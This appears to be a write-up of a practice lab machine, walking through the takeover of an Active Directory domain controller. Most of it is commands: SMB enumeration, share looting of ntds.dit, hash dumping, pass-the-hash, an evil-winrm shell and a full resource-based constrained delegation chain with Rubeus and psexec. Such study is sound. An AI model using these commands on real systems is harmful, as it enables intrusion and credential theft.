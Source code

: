 ## Takeaway
## Metadata
- Running `enum4linux -U 192.168.213.175` will identify potential credential pair as `V.Ventz:HotelCalifornia194!`.![[Pasted image 20240324142136.png]]
- Run `netexec smb 192.168.213.175 -u "V.Ventz" -p "HotelCalifornia194!"  --shares` will identify an interesting share called `Password Audit`.![[Pasted image 20240324143159.png]]
	- Run `smbget "smb://192.168.213.175/Password Audit" --user "V.Ventz"%"HotelCalifornia194!" -R` to download all available files from share `Password Audit` for inspection.                                                             ![[Pasted image 20240324151047.png]] 
		- There are `ntds.dit`, `SECURITY`, and `SYSTEM`  file. Run `impacket-secretsdump -ntds ../Active\ Directory/ntds.dit -system SYSTEM LOCAL` to retrieve more user hashes.![[Pasted image 20240324151722.png]]
		- With more hashes, run `netexec smb 192.168.213.175 -u domain_users.txt -H hashes.txt --no-bruteforce --continue-on-success` to discover another pair of valid credential as `resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808`![[Pasted image 20240324152417.png]]
		- Run `netexec winrm 192.168.213.175 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808` will identify that the user have `winrm` access.![[Pasted image 20240324152729.png]]
- Running `bloodhound` as `L.Livingstone` will identify that it has `GenericAll` towards DC which mean one can user `Resources-based Constrained Delegation` to root the DC.![[Pasted image 20240324154624.png]]
# Exploitation
## Shell as L.Livingstone
- Run `evil-winrm -i 192.168.213.175 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808` to obtain a `winrm` session.
# PrivEsc
- Run the following lines to upload and load necessary scripts:
```shell
upload /home/saxon/Desktop/Windows/PowerView.ps1
upload /home/saxon/Desktop/Windows/Powermad.ps1
upload /home/saxon/Desktop/Windows/Rubeus.exe
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser -Force
. .\PowerView.ps1;. .\Powermad.ps1
```

```shell
$TargetComputer = "RESOURCEDC.RESOURCED.LOCAL"
# add a new attacker-controlled computer account
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Hacker123!' -AsPlainText -Force)
# retrieve the security identifier (SID) of the newly created computer account
$ComputerSid = Get-DomainComputer fakeComputer -Properties objectsid | Select -Expand objectsid
# build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
# set newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
# use Rubeus to hash the plaintext password into its RC4_HMAC form
.\Rubeus.exe hash /password:Hacker123!
.\Rubeus.exe s4u /user:fakeComputer$ /rc4:9C19EE2F145CDA561679109001FC6B26 /impersonateuser:administrator /msdsspn:cifs/RESOURCEDC.RESOURCED.LOCAl /ptt
```

```shell
# Copy the base64 encode ticket to a file called `administrator_tgs_kirbi.base64` onto the attacker machine 
# Decode the kirbi
base64 -d administrator_tgs_kirbi.base64 > administrator_tgs_kirbi
# Convert to `.ccache` that psexec.py understands
ticketConverter.py administrator_tgs_kirbi administrator_tgs.ccache 
# The magic !!!!
KRB5CCNAME=administrator_tgs.ccache impacket-psexec resourced.local/administrator@RESOURCEDC.RESOURCED.LOCAL -k -no-pass
```